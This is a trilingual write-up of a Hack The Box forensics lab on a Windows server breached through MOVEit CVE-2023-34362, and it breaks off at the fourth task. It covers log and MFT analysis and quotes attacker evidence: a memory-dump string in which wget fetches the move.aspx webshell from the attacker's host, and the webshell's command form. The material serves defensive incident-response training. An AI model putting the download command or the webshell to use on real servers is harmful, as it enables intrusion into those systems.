# i-like-to [Easy]

> **ES:** Sherlock DFIR: servidor Windows con MOVEit vulnerable (CVE-2023-34362) — webshells ASPX/ASP, RDP, cambio de clave de servicio, 14 tasks.
> **EN:** DFIR sherlock: Windows server with vulnerable MOVEit (CVE-2023-34362) — ASPX/ASP webshells, RDP, service password change, 14 tasks.

| Campo | Valor |
|-------|-------|
| **Tipo** | DFIR |
| **URL** | https://app.hackthebox.com/sherlocks/i-like-to |
| **Evidencia** | Triage.zip |


:::info Sherlock Scenario

We have unfortunately been hiding under a rock and did not see the many news articles referencing the recent MOVEit CVE being exploited in the wild. We believe our Windows server may be vulnerable and has recently fallen victim to this compromise. We need to understand this exploit in a bit more detail and confirm the actions of the attacker & retrieve some details so we can implement them into our SOC environment. We have provided you with a triage of all the necessary artifacts from our compromised Windows server. PS: One of the artifacts is a memory dump, but we forgot to include the vmss file. You might have to go back to basics here...

> [ZH] 不幸的是，我们一直躲在岩石下面……您可能必须回到这里讨论基本知识……
> **ES:** Servidor Windows posiblemente comprometido vía MOVEit CVE en producción: confirmar acciones del atacante con triage completo (incluye volcado sin vmss → análisis básico).
> **EN:** Windows server possibly compromised via in-the-wild MOVEit CVE: confirm attacker actions with full triage (includes vmss-less dump → basics).

:::

## 题目数据 / Datos / Data

> [ZH] 由于附件过大，故在此不提供下载链接。
> **ES:** Anexo demasiado grande: sin enlace aquí (Triage.zip + vmem).
> **EN:** Attachment too large: no link here (Triage.zip + vmem).

## First of all — CVE y adjunto / CVE and bundle

> [ZH] 根据题目中所提到的 `MOVEit CVE` 信息，定位到 `CVE-2023-34362`
> **ES:** El CVE de MOVEit en juego es el `CVE-2023-34362`.
> **EN:** The MOVEit CVE at play is `CVE-2023-34362`.

### 附件解压 / Descompresión / Extraction

> [ZH] 首先，先将附件解压后，得到
> **ES:** Descomprimir el adjunto (`I-like-to-*.vmem` + `Triage.zip`).
> **EN:** Extract the bundle (`I-like-to-*.vmem` + `Triage.zip`).

```plaintext
D:.
    I-like-to-27a787c5.vmem
    Triage.zip
```

> **ES:** Descomprimir `Triage.zip` (árbol con URL-decode, abajo).
> **EN:** Extract `Triage.zip` (URL-decoded tree below).

```plaintext
D:.
├─results
└─uploads
    ├─auto
    │  ├─\\.\C:
    │  │  └─Windows
    │  │      └─System32
    │  │          └─LogFiles
    │  │              └─WMI
    │  │                  └─RtBackup
    │  └─C:
    │      ├─$Recycle.Bin
    │      │  └─S-1-5-21-4088429403-1159899800-2753317549-500
    │      ├─inetpub
    │      │  └─logs
    │      │      ├─FailedReqLogFiles
    │      │      └─LogFiles
    │      │          └─W3SVC2
    │      ├─MOVEitTransfer
    │      │  └─Logs
    │      ├─ProgramData
    │      │  └─Microsoft
    │      │      ├─Windows
    │      │      │  └─Start Menu
    │      │      │      └─Programs
    │      │      └─Windows Defender
    │      │          └─Support
    │      ├─Users
    │      │  ├─.NET v4.5
    │      │  │  └─AppData
    │      │  │      ├─Local
    │      │  │      │  └─Microsoft
    │      │  │      │      └─Windows
    │      │  │      └─Roaming
    │      │  │          └─Microsoft
    │      │  │              └─Internet Explorer
    │      │  │                  └─Quick Launch
    │      │  ├─.NET v4.5 Classic
    │      │  │  └─AppData
    │      │  │      ├─Local
    │      │  │      │  └─Microsoft
    │      │  │      │      └─Windows
    │      │  │      └─Roaming
    │      │  │          └─Microsoft
    │      │  │              └─Internet Explorer
    │      │  │                  └─Quick Launch
    │      │  ├─Administrator
    │      │  │  └─AppData
    │      │  │      ├─Local
    │      │  │      │  ├─ConnectedDevicesPlatform
    │      │  │      │  │  └─L.Administrator
    │      │  │      │  └─Microsoft
    │      │  │      │      ├─Internet Explorer
    │      │  │      │      │  ├─CacheStorage
    │      │  │      │      │  ├─DomainSuggestions
    │      │  │      │      │  ├─EmieSiteList
    │      │  │      │      │  ├─EmieUserList
    │      │  │      │      │  ├─IECompatData
    │      │  │      │      │  ├─IEFlipAheadCache
    │      │  │      │      │  ├─imagestore
    │      │  │      │      │  │  └─zxjua2i
    │      │  │      │      │  ├─Recovery
    │      │  │      │      │  │  └─High
    │      │  │      │      │  │      └─Last Active
    │      │  │      │      │  ├─Tiles
    │      │  │      │      │  │  └─pin-314712940
    │      │  │      │      │  └─VersionManager
    │      │  │      │      └─Windows
    │      │  │      │          ├─Explorer
    │      │  │      │          ├─History
    │      │  │      │          │  └─History.IE5
    │      │  │      │          │      └─MSHist012023061320230614
    │      │  │      │          ├─IEDownloadHistory
    │      │  │      │          ├─INetCookies
    │      │  │      │          │  ├─DNTException
    │      │  │      │          │  └─ESE
    │      │  │      │          └─WebCache
    │      │  │      └─Roaming
    │      │  │          └─Microsoft
    │      │  │              ├─Internet Explorer
    │      │  │              │  └─Quick Launch
    │      │  │              │      └─User Pinned
    │      │  │              │          └─TaskBar
    │      │  │              ├─Protect
    │      │  │              │  └─S-1-5-21-4088429403-1159899800-2753317549-500
    │      │  │              └─Windows
    │      │  │                  ├─PowerShell
    │      │  │                  │  └─PSReadLine
    │      │  │                  └─Recent
    │      │  │                      ├─AutomaticDestinations
    │      │  │                      └─CustomDestinations
    │      │  ├─Default
    │      │  │  └─AppData
    │      │  │      └─Roaming
    │      │  │          └─Microsoft
    │      │  │              └─Internet Explorer
    │      │  │                  └─Quick Launch
    │      │  ├─dfir
    │      │  │  └─AppData
    │      │  │      ├─Local
    │      │  │      │  ├─ConnectedDevicesPlatform
    │      │  │      │  │  └─L.dfir
    │      │  │      │  └─Microsoft
    │      │  │      │      ├─Internet Explorer
    │      │  │      │      │  ├─CacheStorage
    │      │  │      │      │  ├─EmieSiteList
    │      │  │      │      │  ├─EmieUserList
    │      │  │      │      │  ├─IECompatData
    │      │  │      │      │  ├─imagestore
    │      │  │      │      │  │  └─lq16xzq
    │      │  │      │      │  └─Recovery
    │      │  │      │      │      └─Last Active
    │      │  │      │      └─Windows
    │      │  │      │          ├─Explorer
    │      │  │      │          ├─History
    │      │  │      │          │  ├─History.IE5
    │      │  │      │          │  │  └─MSHist012023061320230614
    │      │  │      │          │  └─Low
    │      │  │      │          │      └─History.IE5
    │      │  │      │          ├─IEDownloadHistory
    │      │  │      │          ├─INetCookies
    │      │  │      │          │  ├─DNTException
    │      │  │      │          │  ├─ESE
    │      │  │      │          │  └─Low
    │      │  │      │          │      └─ESE
    │      │  │      │          └─WebCache
    │      │  │      └─Roaming
    │      │  │          └─Microsoft
    │      │  │              ├─Internet Explorer
    │      │  │              │  └─Quick Launch
    │      │  │              │      └─User Pinned
    │      │  │              │          └─TaskBar
    │      │  │              ├─Protect
    │      │  │              │  └─S-1-5-21-4088429403-1159899800-2753317549-1007
    │      │  │              └─Windows
    │      │  │                  └─Recent
    │      │  │                      ├─AutomaticDestinations
    │      │  │                      └─CustomDestinations
    │      │  ├─moveitsvc
    │      │  │  └─AppData
    │      │  │      ├─Local
    │      │  │      │  └─Microsoft
    │      │  │      │      └─Windows
    │      │  │      └─Roaming
    │      │  │          └─Microsoft
    │      │  │              ├─Internet Explorer
    │      │  │              │  └─Quick Launch
    │      │  │              └─Protect
    │      │  │                  └─S-1-5-21-4088429403-1159899800-2753317549-1000
    │      │  └─moveitsvc.WIN-LR8T2EF8VHM.002
    │      │      └─AppData
    │      │          ├─Local
    │      │          │  ├─ConnectedDevicesPlatform
    │      │          │  │  └─L.moveitsvc
    │      │          │  └─Microsoft
    │      │          │      ├─Internet Explorer
    │      │          │      │  ├─CacheStorage
    │      │          │      │  └─IECompatData
    │      │          │      └─Windows
    │      │          │          ├─Explorer
    │      │          │          ├─History
    │      │          │          │  └─History.IE5
    │      │          │          └─WebCache
    │      │          └─Roaming
    │      │              └─Microsoft
    │      │                  ├─Internet Explorer
    │      │                  │  └─Quick Launch
    │      │                  │      └─User Pinned
    │      │                  │          └─TaskBar
    │      │                  ├─Protect
    │      │                  │  └─S-1-5-21-4088429403-1159899800-2753317549-1006
    │      │                  └─Windows
    │      │                      ├─PowerShell
    │      │                      │  └─PSReadLine
    │      │                      └─Recent
    │      │                          ├─AutomaticDestinations
    │      │                          └─CustomDestinations
    │      └─Windows
    │          ├─appcompat
    │          │  └─Programs
    │          ├─INF
    │          ├─ServiceProfiles
    │          │  ├─LocalService
    │          │  └─NetworkService
    │          │      └─AppData
    │          │          └─Local
    │          │              └─Microsoft
    │          │                  └─Windows
    │          │                      └─DeliveryOptimization
    │          │                          └─Logs
    │          ├─System32
    │          │  ├─config
    │          │  │  └─RegBack
    │          │  ├─LogFiles
    │          │  │  └─Sum
    │          │  ├─sru
    │          │  ├─Tasks
    │          │  │  └─Microsoft
    │          │  │      └─Windows
    │          │  │          ├─.NET Framework
    │          │  │          ├─Active Directory Rights Management Services Client
    │          │  │          ├─AppID
    │          │  │          ├─Application Experience
    │          │  │          ├─ApplicationData
    │          │  │          ├─AppxDeploymentClient
    │          │  │          ├─Autochk
    │          │  │          ├─BitLocker
    │          │  │          ├─Bluetooth
    │          │  │          ├─BrokerInfrastructure
    │          │  │          ├─CertificateServicesClient
    │          │  │          ├─Chkdsk
    │          │  │          ├─Clip
    │          │  │          ├─CloudExperienceHost
    │          │  │          ├─Customer Experience Improvement Program
    │          │  │          ├─Data Integrity Scan
    │          │  │          ├─Defrag
    │          │  │          ├─Device Information
    │          │  │          ├─Device Setup
    │          │  │          ├─Diagnosis
    │          │  │          ├─DirectX
    │          │  │          ├─DiskCleanup
    │          │  │          ├─DiskDiagnostic
    │          │  │          ├─DiskFootprint
    │          │  │          ├─EDP
    │          │  │          ├─ExploitGuard
    │          │  │          ├─File Classification Infrastructure
    │          │  │          ├─Flighting
    │          │  │          │  ├─FeatureConfig
    │          │  │          │  └─OneSettings
    │          │  │          ├─InstallService
    │          │  │          ├─LanguageComponentsInstaller
    │          │  │          ├─License Manager
    │          │  │          ├─Location
    │          │  │          ├─Maintenance
    │          │  │          ├─Maps
    │          │  │          ├─MemoryDiagnostic
    │          │  │          ├─Mobile Broadband Accounts
    │          │  │          ├─MUI
    │          │  │          ├─Multimedia
    │          │  │          ├─NetTrace
    │          │  │          ├─Network Controller
    │          │  │          ├─Offline Files
    │          │  │          ├─PI
    │          │  │          ├─PLA
    │          │  │          ├─Plug and Play
    │          │  │          ├─Power Efficiency Diagnostics
    │          │  │          ├─PushToInstall
    │          │  │          ├─Ras
    │          │  │          ├─RecoveryEnvironment
    │          │  │          ├─Registry
    │          │  │          ├─Server Manager
    │          │  │          ├─Servicing
    │          │  │          ├─SharedPC
    │          │  │          ├─Shell
    │          │  │          ├─Software Inventory Logging
    │          │  │          ├─SoftwareProtectionPlatform
    │          │  │          ├─SpacePort
    │          │  │          ├─Speech
    │          │  │          ├─Storage Tiers Management
    │          │  │          ├─Task Manager
    │          │  │          ├─TextServicesFramework
    │          │  │          ├─Time Synchronization
    │          │  │          ├─Time Zone
    │          │  │          ├─TPM
    │          │  │          ├─UpdateOrchestrator
    │          │  │          ├─UPnP
    │          │  │          ├─User Profile Service
    │          │  │          ├─WaaSMedic
    │          │  │          ├─WDI
    │          │  │          ├─Windows Defender
    │          │  │          ├─Windows Error Reporting
    │          │  │          ├─Windows Filtering Platform
    │          │  │          ├─Windows Media Sharing
    │          │  │          ├─WindowsColorSystem
    │          │  │          ├─WindowsUpdate
    │          │  │          ├─Wininet
    │          │  │          └─Workplace Join
    │          │  ├─wbem
    │          │  │  └─Repository
    │          │  ├─WDI
    │          │  │  └─LogFiles
    │          │  └─winevt
    │          │      └─Logs
    │          ├─Tasks
    │          └─Temp
    └─ntfs
        └─\\.\C:
            └─$Extend
                └─$RmMetadata
                    └─$TxfLog
```

> **ES:** Claramente logs de Windows.
> **EN:** Clearly Windows logs.

### 内存镜像加载 / Carga del volcado / Dump loading

> **ES:** Solo hay `.vmem` (sin `vmss`): Volatility no aplica, pero sí `strings` y R-Studio.
> **EN:** Only `.vmem` (no `vmss`): Volatility is out, `strings` and R-Studio still work.



### MFT 数据解析 / Análisis MFT / MFT parsing

> **ES:** Leer el `$MFT` con MFTExplorer.
> **EN:** Read the `$MFT` with MFTExplorer.



> **ES:** Así se reconstruye el NTFS; además, timeline con `MFTECmd` + TimelineExplorer.
> **EN:** That rebuilds the NTFS; plus timeline with `MFTECmd` + TimelineExplorer.

```bash
PS D:\_Tools\_ForensicAnalyzer\MFTECmd> .\MFTECmd.exe -f D:\Downloads\iliketo\Triage\Triage\uploads\ntfs\%5C%5C.%5CC%3A\$MFT --csv D:\Downloads\iliketo\Triage\Triage\uploads\ntfs\
MFTECmd version 1.2.2.1

Author: Eric Zimmerman (saericzimmerman@gmail.com)
https://github.com/EricZimmerman/MFTECmd

Command line: -f D:\Downloads\iliketo\Triage\Triage\uploads\ntfs\%5C%5C.%5CC%3A\$MFT --csv ./out.csv

Warning: Administrator privileges not found!

File type: Mft

Processed D:\Downloads\iliketo\Triage\Triage\uploads\ntfs\%5C%5C.%5CC%3A\MFT in 4.5830 seconds

D:\Downloads\iliketo\Triage\Triage\uploads\ntfs\%5C%5C.%5CC%3A\$MFT: FILE records found: 318,161 (Free records: 214,500) File size: 520.2MB
Path to ./out.csv doesn't exist. Creating...
        CSV output will be saved to D:\Downloads\iliketo\Triage\Triage\uploads\ntfs\20240322151222_MFTECmd_$MFT_Output.csv
```

> **ES:** Cargar el CSV del MFT en Timeline Explorer; logs HTTP en `\Triage\uploads\auto\C%3A\inetpub\logs\LogFiles\W3SVC2\u_ex230712.log`.
> **EN:** Load the MFT CSV in Timeline Explorer; HTTP logs at `\Triage\uploads\auto\C%3A\inetpub\logs\LogFiles\W3SVC2\u_ex230712.log`.



### HTTP 日志 / Logs HTTP / HTTP logs

> **ES:** Los HTTP están en el path indicado.
> **EN:** HTTP logs live at the path shown.

## Task 1 — Nombre del webshell ASPX / ASPX webshell name

> [ZH] 攻击者上传的 ASPX webshell 的名称是什么？
> **ES:** ¿Cómo se llama el webshell ASPX subido por el atacante?
> **EN:** What is the attacker's uploaded ASPX webshell called?

> **ES:** En el log IIS, extraer los User-Agent únicos del día del ataque.
> **EN:** In the IIS log, extract the day's unique User-Agents.

```python
with open("./u_ex230712.log", "r") as f:
    logs = [i.split("") for i in f.read().split("\n") if i.startswith("2023-07-12")]
for i in logs:
    while "-" in i:
        i.remove("-")
user_agent = []

for i in logs:
    if i[7] in user_agent:
        continue
    else:
        user_agent.append(i[7])

print("\n".join(user_agent))
```

> **ES:** Salida:
> **EN:** Output:

```plaintext
Mozilla/5.0+(compatible;+Nmap+Scripting+Engine;+https://nmap.org/book/nse.html)
AnyConnect+Darwin_i386+3.1.05160
Mozilla/5.0+(X11;+Linux+x86_64;+rv:102.0)+Gecko/20100101+Firefox/102.0
Ruby
CWinInetHTTPClient
Mozilla/5.0+(Macintosh;+Intel+Mac+OS+X+10_15_7)+AppleWebKit/537.36+(KHTML,+like+Gecko)+Chrome/114.0.0.0+Safari/537.36
```

> **ES:** Nmap y Metasploit delatan a los dos primeros; `CWinInetHTTPClient` es el tercero sospechoso.
> **EN:** Nmap and Metasploit give away the first two; `CWinInetHTTPClient` is the third suspect.

> **ES:** Con la firma de ambas herramientas se fijan esos dos UA como origen, más el `CWinInetHTTPClient` sospechoso.
> **EN:** Both tool signatures pin those two UAs as source, plus the suspect `CWinInetHTTPClient`.

> **ES:** Extraer las peticiones de esos tres UA.
> **EN:** Extract those three UAs' requests.

```python
with open("./u_ex230712.log", "r") as f:
    logs = [i.split("") for i in f.read().split("\n") if i.startswith("2023-07-12")]
for i in logs:
    while "-" in i:
        i.remove("-")

user_agent = ["Mozilla/5.0+(compatible;+Nmap+Scripting+Engine;+https://nmap.org/book/nse.html)", "Ruby", "CWinInetHTTPClient"]

res = []

for i in logs:
    if i[7] in user_agent:
        if [i[4], i[7]] in res:
            continue
        else:
            res.append([i[4], i[7]])
for i in res:
    print(i)
```

> **ES:** Se obtiene el listado (nmap + `Ruby`/Metasploit + `CWinInetHTTPClient`).
> **EN:** Listing obtained (nmap + `Ruby`/Metasploit + `CWinInetHTTPClient`).

```plaintext
['/', 'Mozilla/5.0+(compatible;+Nmap+Scripting+Engine;+https://nmap.org/book/nse.html)']
['/nmaplowercheck1689156596', 'Mozilla/5.0+(compatible;+Nmap+Scripting+Engine;+https://nmap.org/book/nse.html)']
['/robots.txt', 'Mozilla/5.0+(compatible;+Nmap+Scripting+Engine;+https://nmap.org/book/nse.html)']
['/evox/about', 'Mozilla/5.0+(compatible;+Nmap+Scripting+Engine;+https://nmap.org/book/nse.html)']
['/HNAP1', 'Mozilla/5.0+(compatible;+Nmap+Scripting+Engine;+https://nmap.org/book/nse.html)']
['/sdk', 'Mozilla/5.0+(compatible;+Nmap+Scripting+Engine;+https://nmap.org/book/nse.html)']
['/.git/HEAD', 'Mozilla/5.0+(compatible;+Nmap+Scripting+Engine;+https://nmap.org/book/nse.html)']
['/favicon.ico', 'Mozilla/5.0+(compatible;+Nmap+Scripting+Engine;+https://nmap.org/book/nse.html)']
['/', 'Ruby']
['/machine2.aspx', 'CWinInetHTTPClient']
['/guestaccess.aspx', 'Ruby']
['/api/v1/token', 'Ruby']
['/api/v1/folders', 'Ruby']
['/api/v1/files/974134622', 'Ruby']
['/api/v1/files/974134892', 'Ruby']
['/api/v1/files/974274452', 'Ruby']
['/api/v1/files/974155582', 'Ruby']
['/api/v1/files/974355270', 'Ruby']
['/api/v1/files/974331243', 'Ruby']
['/api/v1/files/974387947', 'Ruby']
['/api/v1/files/974247918', 'Ruby']
```

> **ES:** Por el exploit de `CVE-2023-34362`, el tráfico de ataque es el de `CWinInetHTTPClient`.
> **EN:** Per the `CVE-2023-34362` exploit, the attack traffic is the `CWinInetHTTPClient` one.

> **ES:** Y en el tráfico posterior aparece el POST a `/move.aspx`.
> **EN:** And later traffic shows the POST to `/move.aspx`.

```plaintext
2023-07-12 11:24:43 10.10.0.25 GET /move.aspx - 443 - 10.255.254.3 Mozilla/5.0+(X11;+Linux+x86_64;+rv:102.0)+Gecko/20100101+Firefox/102.0 - 200 0 0 1179
2023-07-12 11:24:47 10.10.0.25 POST /move.aspx - 443 - 10.255.254.3 Mozilla/5.0+(X11;+Linux+x86_64;+rv:102.0)+Gecko/20100101+Firefox/102.0 https://moveit.htb/move.aspx 200 0 0 159
```

> **ES:** `/move.aspx` encaja en la máscara (nombre + formato webshell) y no es parte de MOVEit: buscarlo en TimelineExplorer.
> **EN:** `/move.aspx` fits the mask (name + webshell format) and is not MOVEit: find it in TimelineExplorer.



```plaintext title="Answer"
move.aspx
```

## Task 2 — IP del atacante / Attacker IP

> [ZH] 攻击者的 IP 地址是什么？
> **ES:** ¿Cuál es la IP del atacante?
> **EN:** What is the attacker's IP?

> **ES:** Buscar `move.aspx` en memoria (`strings` del vmem).
> **EN:** Hunt `move.aspx` in memory (`strings` on the vmem).

```bash
Randark@DESKTOP-7HGIVVS MINGW64 /d/Downloads/iliketo
$ strings I-like-to-27a787c5.vmem | grep "move.aspx"
http://10.255.254.3:9001/move.aspx
http://10.255.254.3:9001/move.aspx
[33mhttp://10.255.254.3:9001/move.aspx
wget http://10.255.254.3:9001/move.aspx -OutFil
c:\MOVEitTransfer\wwwroot\move.aspx
c:\moveittransfer\wwwroot\move.aspx
......
```

> **ES:** Filtrar por rasgos y mirar ±20 líneas (o analizar con R-Studio) hasta dar con el contenido del `move.aspx` (webshell `awen asp.net`).
> **EN:** Filter by features, check ±20 lines (or analyze with R-Studio) to the `move.aspx` content (`awen asp.net` webshell).



```html
<HTML>
<HEAD>
<title>awen asp.net webshell</title>
</HEAD>
<body>
<form name="cmd" method="post" action="./move.aspx" id="cmd">
<input type="hidden" name="__VIEWSTATE" id="__VIEWSTATE" value="/wEPDwULLTE2MjA0MDg4ODhkZNVOZ3tV2TCTi+hEkha/q+A+5xP6tvrMtJaEupnndGLi" />

<input type="hidden" name="__VIEWSTATEGENERATOR" id="__VIEWSTATEGENERATOR" value="678AED88" />
<input type="hidden" name="__EVENTVALIDATION" id="__EVENTVALIDATION" value="/wEdAANhi3zf7ocw6tYhjdSr5BwWitssAmaVIY7AayhB9duwcnk2JDuMxrvKtMBUSvskgfEkJOF+BOsGxdOjAd7jGUjGbwkQ2wl4sKonDxvg+iiKWg==" />
<input name="txtArg" type="text" value="whoami" id="txtArg" style="width:250px;Z-INDEX: 101; LEFT: 405px; POSITION: absolute; TOP: 20px" />
<input type="submit" name="testing" value="excute" id="testing" style="Z-INDEX: 102; LEFT: 675px; POSITION: absolute; TOP: 18px" />
<span id="lblText" style="Z-INDEX: 103; LEFT: 310px; POSITION: absolute; TOP: 22px">Command:</span>
</form>
</body>
</HTML>
```

```plaintext title="Answer"
10.255.254.3
```

## Task 3 — User-Agent inicial / Initial User-Agent

> [ZH] 最初的攻击使用的是什么用户代理？
> **ES:** ¿Qué User-Agent usó el ataque inicial?
> **EN:** Which User-Agent did the initial attack use?

> **ES:** Dato de arriba.
> **EN:** From above.

```plaintext title="Answer"
Ruby
```

## Task 4 — Hora de subida del webshell / Webshell upload time

> [ZH] 攻击者上传 ASPX webshell 的时间是什么时候？
> **ES:** ¿Cuándo subió el atacante el webshell ASPX?
> **EN:** When did the attacker upload the ASPX webshell?

> **ES:** En TimelineExplorer, filtrar por creación de `move.aspx`.
> **EN:** In TimelineExplorer, filter by `move.aspx` creation.

